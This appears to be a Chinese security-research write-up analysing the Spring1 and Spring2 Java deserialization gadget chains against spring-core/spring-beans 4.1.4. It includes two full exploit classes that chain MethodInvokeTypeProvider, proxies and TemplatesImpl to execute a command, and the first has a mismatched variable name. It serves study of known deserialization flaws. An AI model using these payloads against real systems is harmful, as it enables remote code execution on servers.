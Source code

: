 # Spring

## exp

```java
package dem0.deserialization.spring;

import ysoserial.Deserializer;
import ysoserial.Serializer;
import ysoserial.payloads.util.Gadgets;

import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;

public class spring1 {
    public static void main(String[] args) throws Exception {
        final Object templates = Gadgets.createTemplatesImpl("calc");
        Class<?>       c           = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        //代理getObject
        HashMap<String, Object> map = new HashMap();
        map.put("getObject", templates);
        InvocationHandler invocationHandler = (InvocationHandler)constructor.newInstance(Target.class,map);
        ObjectFactory<?> factory = (ObjectFactory<?>) Proxy.newProxyInstance(
            ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler);
        // 设置ObjectFactoryDelegatingInvocationHandler ==> 被代理的factory
        // this.objectFactory.getObject() ==> templates
        Class<?>       clazz          = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> czconstructor = clazz.getDeclaredConstructors()[0];
        czconstructor.setAccessible(true);
        InvocationHandler  obInvocation= (InvocationHandler)czconstructor.newInstance(factory);
        //obInvocation ===> 本身是一个代理类 this.provider.getType()
        // ==> obInvocation.getType ==> obInvocation.getObject
        // ==> 返回template
        
        //typetemplateproxy (type Template) 既有getType 又有newTransfrom
        // 代理getType
        Type typetemplateproxy = (Type)Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class, Templates.class}, obInvocation);
        HashMap<String, Object> mp = new HashMap();
        mp.put("getType", typetemplateproxy);
        InvocationHandler newInvocationHandler = (InvocationHandler)constructor.newInstance(Target.class, mp);
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProvjavaiderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
            new Class[]{typeProviderClass}, newInvocationHandler);
        Class<?> MTProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons   = MTProvider.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field field   = MTProvider.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");
        byte[] serialize = Serializer.serialize(objects);
        Deserializer.deserialize(serialize);
    }
}
```



## 分析

### MethodInvokeTypeProvider

在spring的core包里面有。实现了TypeProvider，说明是可以序列化的。

![image-20220513234515123](https://img.dem0dem0.top/images/image-20220513234515123.png)

调用了 ReflectionUtils 先是 `findMethod` 返回 Method 对象然后紧接着调用 `invokeMethod` 反射调用。注意，这里的调用是无参调用。如果可以把这个methodName改成`newTransform`,`this.provider.getType()` 想办法处理成 TemplatesImpl.就可以触发漏洞了。

### ObjectFactoryDelegatingInvocationHandler

`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler` 是 InvocationHandler 的实现类.注释中Reflective InvocationHandler for lazy access to the current target object.（用于延迟访问当前目标对象的反射调用处理程序。）实例化的时候会接受objectFactory一个参数，并且在Invoke的时候调用getObject。

![image-20220513235148796](https://img.dem0dem0.top/images/image-20220513235148796.png)

ObjectFactory 的 getObject 方法返回的对象是泛型的，那就可以可用 AnnotationInvocationHandler 来代理，返回任意对象。

而 ObjectFactoryDelegatingInvocationHandler 自己本身就是代理类，可以用它代理之前的TypeProvider 的 getType 方法。

### 动态代理过程

![image-20220514093123817](https://img.dem0dem0.top/images/image-20220514093123817.png)

![image-20220514093300540](https://img.dem0dem0.top/images/image-20220514093300540.png)

这次`method`是`newTranfrom`.然后`invoke`,触发`typetemplateproxy`

![image-20220514093409438](https://img.dem0dem0.top/images/image-20220514093409438.png)

然后触发

![image-20220514093437655](https://img.dem0dem0.top/images/image-20220514093437655.png)

结束。

```
mp.put("getType", typetemplateproxy); ===> 为什么不直接返回templates呢？ 因为这里涉及到类型转换需要转换到type.
Type typetemplateproxy = (Type)Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class, Templates.class}, obInvocation);
这也是为什么需要这一步的主要原因。
```

## 依赖

> spring-core : 4.1.4.RELEASE
> spring-beans : 4.1.4.RELEASE
> jdk 1.7

## spring2

![image-20220514094848697](https://img.dem0dem0.top/images/image-20220514094848697.png)

![image-20220514094900102](https://img.dem0dem0.top/images/image-20220514094900102.png)

```java
JdkDynamicAopProxy ==> ObjectFactoryDelegatingInvocationHandler
```

```java
package dem0.deserialization.spring;

import org.springframework.aop.TargetSource;
import org.springframework.aop.framework.AdvisedSupport;
import ysoserial.payloads.util.Gadgets;

import javax.xml.transform.Templates;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.lang.reflect.Type;
import java.util.HashMap;

public class spring2 {
    public static void main(String[] args) throws Exception{
        final Object templates = Gadgets.createTemplatesImpl("calc");
        Class<?>       c           = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        //代理getObject
        HashMap<String, Object> map = new HashMap();
        map.put("getTarget", templates);
        InvocationHandler invocationHandler = (InvocationHandler)constructor.newInstance(Target.class,map);
        TargetSource targetSource = (TargetSource) Proxy.newProxyInstance(
            ClassLoader.getSystemClassLoader(), new Class[]{TargetSource.class}, invocationHandler);

        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTargetSource(targetSource);
        // 设置ObjectFactoryDelegatingInvocationHandler ==> 被代理的factory
        // this.objectFactory.getObject() ==> templates
        Class<?>       clazz          = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> czconstructor = clazz.getDeclaredConstructors()[0];
        czconstructor.setAccessible(true);
        InvocationHandler  obInvocation= (InvocationHandler)czconstructor.newInstance(advisedSupport);


        //obInvocation ===> 本身是一个代理类 this.provider.getType()
        // ==> obInvocation.getType ==> obInvocation.getObject
        // ==> 返回template

        //typetemplateproxy (type Template) 既有getType 又有newTransfrom
        // 代理getType
        Type typetemplateproxy = (Type)Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class, Templates.class}, obInvocation);


        HashMap<String, Object> mp = new HashMap();
        mp.put("getType", typetemplateproxy);
        InvocationHandler newInvocationHandler = (InvocationHandler)constructor.newInstance(Target.class, mp);
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
            new Class[]{typeProviderClass}, newInvocationHandler);

        Class<?> MTProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons   = MTProvider.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Templates.class.getDeclaredMethod("newTransformer"), 0);
//        Field field   = MTProvider.getDeclaredField("methodName");
//        field.setAccessible(true);
//        field.set(objects, "newTransformer");
//        byte[] serialize = Serializer.serialize(objects);
//        Deserializer.deserialize(serialize);
    }
}

```

